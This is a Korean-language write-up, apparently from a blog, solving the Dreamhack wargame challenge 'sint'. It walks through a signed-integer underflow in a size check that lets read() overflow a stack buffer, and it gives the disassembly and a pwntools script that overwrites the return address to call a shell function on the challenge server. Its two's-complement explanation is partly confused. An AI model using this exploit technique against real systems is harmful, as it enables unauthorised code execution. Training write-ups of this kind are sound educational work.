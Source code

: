 ```yaml
---
published: true
image: /img
layout: post
title: Dreamhack sint 문제풀이
tags: [Dreamhack, pwnable, wargame, writeup]
math: true
date: 2022-05-03 21:00
---
```

오랜만에 풀어보는 pwn문제이다.

드림핵에 베이직으로 있는 sint의 취약점을 이용한 문제로 문제이름 또한 sint이다.

문제 압축파일을 다운 받으면 .c로 된 코드 파일과 컴파일한 elf 파일을 제공한다. 우선 .c 파일을 열어보면 내용은 다음과 같다.

```c++
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell()
{
    system("/bin/sh");
}

int main()
{
    char buf[256];
    int size;

    initialize();

    signal(SIGSEGV, get_shell);

    printf("Size: ");
    scanf("%d", &size);

    if (size > 256 || size < 0)
    {
        printf("Buffer Overflow!\n");
        exit(0);
    }

    printf("Data: ");
    read(0, buf, size - 1);

    return 0;
}
```

위 코드를 살펴보면 Size를 입력 받고 if 구분을 통해 조건 비교 후 Data를 read 함수로 입력받는 구조이다. if문을 보면 256보다 크거나, 0보다 작으면 `printf("Buffer Overflow!\n");`를 실행하고 코드를 종료한다. 따라서 Size에 입력되는 값은 0~256까지의 범위를 가질 수 있다.

아래 read함수를 보면 사이즈가 256인 buf 변수에 `size-1`만큼의 데이터를 입력 받는다. 여기서 잘 봐야할 점은 size는 0부터 256까지 숫자가 들어갈 수 있는데 만약 0을 넣으면 어떤일이 일어날까?

read의 데이터 크기에는 -1이 들어가고 이는 2진 보수변환에 의해 아에 다른 값으로 바뀐다.
int형은 4byte가지고 있다. 기본적으로 C언어의 숫자처리는 마이너스 값을 취급하기위해 2의 보수를 사용하며 양의 정수값만 사용하는 int를 선언하려면 Unsigned int 자료형을 사용해야한다.

4바이트 크기의 1을 2진으로 변환하면 다음과 같다. 
```
0000 0000 0000 0000 0000 0000 0000 0001
```
하지만 이를 컴퓨터가 양수 1로 인식하기 위해서는 1의 보수를 구한 다음 2의 보수를 구해 계산한다

그 과정은 다음과 같다.

```
0000 0000 0000 0000 0000 0000 0000 0001

위 2진수를 1의 보수처리를 한다(2진수의 NOT = 의 보수)

1111 1111 1111 1111 1111 1111 1111 1110

위 2진수를 2의 보수처리 한다.(1의 보수의 2진 값 + 1)

1111 1111 1111 1111 1111 1111 1111 1111
```

위 설명이 2의 보수처리에 관한 설명이다. 이걸 응용해 -1의 보수를 구하면 
```
0000 0000 0000 0000 0000 0000 0000 0001
```
다음과 같지만 read 함수의 데이터 크기를 양수만, 즉 Unsigned int값을 받는다.
즉 따라서 보수 처리가 필요 없다는 것인데, 위 -1의 보수처리된 2진수를 역으로 계산하면 
```
1111 1111 1111 1111 1111 1111 1111 1111
```
위 2진수가 메모리에 저장되어 있는것이다. 이 값는 0xffffffff와 동일하며 매우 큰 값을 뜻하므로 버퍼 오버플로우 공격이 가능하다.

자세한 내용은 C언어의 메모리 저장과 보수처리에 관해서 찾아보면 금방 이해 될 것이다.


위와같이 -1이 들어가면 매우 큰 값을 쓸 수 있으니, size에는 0을 넣으면 된다. 이후 read함수에서 버퍼오버플로우를 이용해 return값을 조작해 문제를 풀면 된다.

우선 바이너리를 gdb를 통해 disas main을 진행한다.
```c++
   0x0804866c <+0>:	    push   ebp
   0x0804866d <+1>: 	mov    ebp,esp
   0x0804866f <+3>:	    sub    esp,0x104
   0x08048675 <+9>:     call   0x8048612 <initialize>
   0x0804867a <+14>:	push   0x8048659
   0x0804867f <+19>:	push   0xb
   0x08048681 <+21>:	call   0x8048470 <signal@plt>
   0x08048686 <+26>:	add    esp,0x8
   0x08048689 <+29>:	push   0x80487a1
   0x0804868e <+34>:	call   0x8048460 <printf@plt>
   0x08048693 <+39>:	add    esp,0x4
   0x08048696 <+42>:	lea    eax,[ebp-0x104]
   0x0804869c <+48>:	push   eax
   0x0804869d <+49>:	push   0x80487a8
   0x080486a2 <+54>:	call   0x80484e0 <__isoc99_scanf@plt>
   0x080486a7 <+59>:	add    esp,0x8
   0x080486aa <+62>:	mov    eax,DWORD PTR [ebp-0x104]
   0x080486b0 <+68>:	cmp    eax,0x100
   0x080486b5 <+73>:	jg     0x80486c1 <main+85>
   0x080486b7 <+75>:	mov    eax,DWORD PTR [ebp-0x104]
   0x080486bd <+81>:	test   eax,eax
   0x080486bf <+83>:	jns    0x80486d5 <main+105>
   0x080486c1 <+85>:	push   0x80487ab
   0x080486c6 <+90>:	call   0x8048490 <puts@plt>
   0x080486cb <+95>:	add    esp,0x4
   0x080486ce <+98>:	push   0x0
   0x080486d0 <+100>:	call   0x80484b0 <exit@plt>
   0x080486d5 <+105>:	push   0x80487bc
   0x080486da <+110>:	call   0x8048460 <printf@plt>
   0x080486df <+115>:	add    esp,0x4
   0x080486e2 <+118>:	mov    eax,DWORD PTR [ebp-0x104]
   0x080486e8 <+124>:	sub    eax,0x1
   0x080486eb <+127>:	push   eax
   0x080486ec <+128>:	lea    eax,[ebp-0x100]
   0x080486f2 <+134>:	push   eax
   0x080486f3 <+135>:	push   0x0
   0x080486f5 <+137>:	call   0x8048450 <read@plt>
   0x080486fa <+142>:	add    esp,0xc
   0x080486fd <+145>:	mov    eax,0x0
   0x08048702 <+150>:	leave  
   0x08048703 <+151>:	ret    
```

0x0804866f 부분을 보면 esp에서 0x104만큼의 크기를 빼 buf를 위한 공간을 만든다. read함수에서 return 주소를 조작할 것이기 때문에 104를 10진수로 전환한 260의 임의 값을 넣고 4바이트의 sfp 임의 값에 get_shell()함수의 주소를 넣으면 된다.

```
disas get_shell
```
을 통해 주소값을 알아낸다. 함수의 주소는 0x08048659 이며 이를 이용해 파이썬 코드를 작성한다.

```python
from pwn import *

conn = remote("host1.dreamhack.games", 11225);

get_shell = p32(0x08048659)
payload = b'A'*(264)
payload += get_shell

conn.recvuntil("Size: ")
conn.sendline("0")

sleep(1)

conn.recvuntil("Data: ")
conn.send(payload)

sleep(1)
#conn.recvall()
conn.interactive()
```

이 코드를 돌리면 flag를 얻을 수 있다.
참고로 이유는 모르겠지만 위 코드가 윈도우 환경에서는 이상하게 동작하지 않는다. 필자는 VM을 통해 우분투 20.04를 이용했다.